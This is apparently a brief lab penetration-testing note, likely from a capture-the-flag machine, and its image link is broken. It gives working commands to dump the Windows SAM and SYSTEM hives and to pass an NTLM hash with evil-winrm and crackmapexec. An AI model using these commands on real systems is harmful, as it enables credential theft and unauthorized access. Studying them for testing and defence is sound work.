



## Rerences

[Mimikatz and LSADUMP](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=c2bacbe0-d4fc-4876-b6a3-1995d653f32a)

## Extracting Passwords from SAM
The `SAM` and `SYSTEM` files cannot be copied when in use, but they can be backed up using:
```
cmd /c reg save HKLM\SAM SAM
cmd /c reg save HKLM\SYSTEM SYSTEM
```

In `CommandVM`, use `Mimikatz` to extract the hashes:



<br />

You can use either `Evil-WinRM` or `CME` to pass the hash:
```
// Evil.
evil-winrm -i 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051

// CME.
crackmapexec smb 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051
crackmapexec winrm 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051
```
